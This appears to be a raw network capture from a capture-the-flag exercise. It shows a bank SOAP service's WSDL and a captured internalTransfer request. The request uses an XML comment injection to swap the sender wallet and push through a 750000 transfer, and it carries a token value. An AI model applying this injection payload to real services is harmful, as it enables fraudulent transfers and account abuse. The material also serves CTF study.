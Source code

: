    ```
       </portType>
   
       <binding name="BankServiceBinding" type="tns:BankServicePort">
           <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
           <operation name="requestBalance">
               <soap:operation soapAction="urn:requestBalanceAction"/>
               <input>
                   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
               </input>
               <output>
                   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
               </output>
           </operation>
           <operation name="internalTransfer">
               <soap:operation soapAction="urn:internalTransferAction"/>
               <input>
                   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
               </input>
               <output>
                   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
               </output>
           </operation>
       </b
   
   T 10.135.89.224:80 -> 18.184.147.62:46038 [AP]
   inding>
   
       <wsdl:service name="BankService">
           <wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
               <soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php" />
           </wsdl:port>
       </wsdl:service>
   </wsdl:definitions>
   
   T 18.184.147.62:46040 -> 10.135.89.224:80 [AP]
   POST /api/bankservice.php HTTP/1.1.
   Host: 123.207.90.143.
   Connection: Keep-Alive.
   User-Agent: PHP-SOAP/7.0.30-0ubuntu0.16.04.1.
   Content-Type: application/soap+xml; charset=utf-8; action="internalTransferAction".
   Content-Length: 869.
   .
   <SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
         <SOAP-ENV:Body>
           <ns1:internalTransfer>
             <receiver_wallet_num xsi:type="xsd:decimal">1340</receiver_wallet_num>.
   <sender_wallet_num xsi:type="xsd:decimal">.2652.</sender_wallet_num><!--</receiver_wallet_num>
             <sender_wallet_num xsi:type="xsd:decimal">1340</sender_wallet_num>
             <amount xsi:type="xsd:float">--><amount xsi:type="xsd:float">750000</amount>
             <token xsi:type="xsd:token">somesupertokenkey1235555</token>
           </ns1:internalTransfer>
         </SOAP-ENV:Body>
       </SOAP-ENV:Envelope>
      
   T 10.135.89.224:80 -> 18.184.147.62:46040 [AP]
   ```